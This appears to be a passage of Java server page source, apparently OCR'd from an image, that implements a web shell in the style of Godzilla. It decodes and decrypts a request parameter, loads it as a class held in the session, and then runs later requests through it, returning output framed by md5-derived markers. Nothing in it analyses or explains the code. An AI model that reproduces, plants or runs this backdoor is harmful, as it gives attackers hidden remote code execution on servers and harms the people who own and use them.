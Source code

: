 ```java
            bs
        });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String) Encoder.getClass().getMethod("encode", new Class[] {
                byte[].class
            }).invoke(Encoder, new Object[] {
                bs
            });
        } catch (Exception e2) {}
    }
    return value;
}
public static byte[] base64Decode(String bs) throws Exception {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[] {
                String.class
            }).invoke(decoder, new Object[] {
                bs
            });
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[] {
                    String.class
                }).invoke(decoder, new Object[] {
                    bs
                });
            } catch (Exception e2) {}
        }
        return value;
    } %> <%
    try {
        byte[] data = base64Decode(request.getParameter(pass));
        data = x(data, false);
        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            request.setAttribute("parameters", data);
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            f.equals(arrOut);
            f.equals(pageContext);
            response.getWriter().write(md5.substring(0, 16));
            f.toString();
            response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));
            response.getWriter().write(md5.substring(16));
        }
    } catch (Exception e) {}
%>
```
